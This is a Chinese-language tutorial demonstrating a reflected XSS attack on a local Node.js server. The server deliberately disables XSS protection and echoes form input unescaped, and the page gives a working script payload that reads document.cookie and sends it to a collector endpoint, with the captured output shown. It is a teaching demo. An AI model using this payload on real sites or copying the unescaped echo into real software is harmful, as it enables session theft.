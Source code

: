## 搭建 node 服务器

假设你计算机安装了 node 环境，拷贝下方内容，保存为 `index.js`。`node index.js` 运行服务，在浏览器输入 `localhost:3000/` 回车。

NOTE：现代浏览器默认开启了防御 xss 攻击，为了禁用这点，可以在请求头部写入这个 `"X-XSS-Protection": "0"`。

```js
// index.js
const http = require("http");
const fs = require("fs");
const url = require("url");

const server = http.createServer(function(req, res) {
  if (req.url === "/favicon.ico") {
    return;
  }
  const parseUrl = url.parse(req.url, true);

  console.log(">>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>");
  console.log(parseUrl);

  // 路由1 /uploadForm	提交表单处理方法，在页面显示刚才表单内填写的内容
  // 路由2 /xssattack		xss 攻击接收浏览器发来的 cookie 接口
  // 路由3 /  			返回一个表单
  if (parseUrl.pathname === "/uploadForm") {
    res.writeHead(200, {
      "content-Type": "text/html;charset=UTF-8",

      // 禁用浏览器默认开启的防御 xss 攻击
      "X-XSS-Protection": "0"
    });
    const username = parseUrl.query.username;
    res.write(`<h>${username}</h>`);
    res.end();
  } else if (parseUrl.pathname === "/xssattack") {
    res.writeHead(200, {
      "content-Type": "text/html;charset=UTF-8"
    });
    const cookie = parseUrl.query.cookie;
    res.write(`i received message：${cookie}`);
    res.end();
  } else {
    res.writeHead(200, {
      "content-Type": "text/html;charset=UTF-8",
      "Set-Cookie": "myCookie=test"
    });
    res.write(`
			<form method="get" action="/uploadForm">
				<input type="text" style="width: 600px;" placeholder="输入用户名" name="username">
				<button type="submit">提交</button>
			</form>
		`);
    res.end();
  }
});

server.listen(3000, function() {
  console.log("server is starting on port 3000");
});
```

该服务提供了三个接口。

* `localhost:3000/` node 服务器返回一个表单页面；
* `localhost:3000/uploadForm` 表单提交按钮处理方法，将表单文本框中内容打印到页面上；
* `localhost:3000/xssattack` 攻击脚本获取到当前登录用户的身份信息，如账号密码，或者 cookie 等，发送到攻击者自己的服务器上。

## 编写攻击脚本

```html
<h>测试数据</h><script>(function () {var str = document.cookie;var a =document.createElement('a');a.setAttribute('id', 'xxlkjxljklxjklfasdf');a.href='http://localhost:3000/xssattack?cookie='+str;document.body.appendChild(a);document.getElementById('xxlkjxljklxjklfasdf').click();})()</script>
```

攻击脚本解释：

```js
// 攻击脚本自执行函数：获取 cookie，发送给攻击者服务器 localhost:3000/xssattack
<script>
(function () {
    var str = document.cookie;
    var a =document.createElement('a');
    a.setAttribute('id', 'xxlkjxljklxjklfasdf')
    a.href='http://localhost:3000/xssattack?cookie='+str
    document.body.appendChild(a);
    document.getElementById('xxlkjxljklxjklfasdf').click()
})()
</script>
```

将脚本添加到表单输入框，提交。

## 获取 cookie

点击提交，在终端可以看到 cookie 信息

```bash
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
Url {
  protocol: null,
  slashes: null,
  auth: null,
  host: null,
  port: null,
  hostname: null,
  hash: null,
  search: '?cookie=myCookie=test',
  query: { cookie: 'myCookie=test' },
  pathname: '/xssattack',
  path: '/xssattack?cookie=myCookie=test',
  href: '/xssattack?cookie=myCookie=test' }
```

拿到 cookie 就可以做坏事了。

参考资料： [XSS 攻击原理、实战、预防](https://my.oschina.net/dkvirus/blog/1591023)
